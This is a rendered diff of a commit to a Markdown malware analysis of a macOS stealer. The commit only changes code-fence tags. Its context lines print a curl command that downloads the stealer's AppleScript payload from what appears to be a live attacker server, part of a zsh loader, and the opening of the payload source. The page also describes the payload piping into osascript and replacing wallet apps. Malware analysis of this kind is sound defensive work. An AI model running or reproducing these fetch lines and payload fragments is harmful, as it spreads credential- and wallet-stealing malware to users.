

Before and after one commit to userHonest/docs, a Markdown page: malware/shub-stealer.md, 3 parts joined by grey strips. Drawn GitHub-style.

````diff
--- a/malware/shub-stealer.md
+++ b/malware/shub-stealer.md
@@ -108,7 +111,7 @@ If the host is not blocked, it sends a **`loader_requested`** event. That tells
 
 The final action is the important one: it retrieves `payload.applescript` from the server and pipes it into `osascript`. So the decoded loader is not the main stealer. It is a downloader and execution bridge to the real AppleScript payload.
 
-```shell
+```
 
 #!/bin/zsh
 # Debug loader — detect CIS and block with telemetry
@@ -156,7 +159,7 @@ exit 0
 
 # **Capturing and Analyzing payload.applescript**
 
-```shell
+```
 curl -L -o payload.applescript "https://datasphere.us.com/debug/payload.applescript?build=492f9e58358e8e2bc9e0414fa077e197"
 ```
 
@@ -244,7 +247,7 @@ The tail of the script downloads replacement payloads for wallet applications li
 
 ## **Full Source: payload.applescript**
 
-```shell
+```
 try
 do shell script "killall Terminal"
 end try
````
Also changed, not shown: other parts of malware/shub-stealer.md (+14 -8 lines).
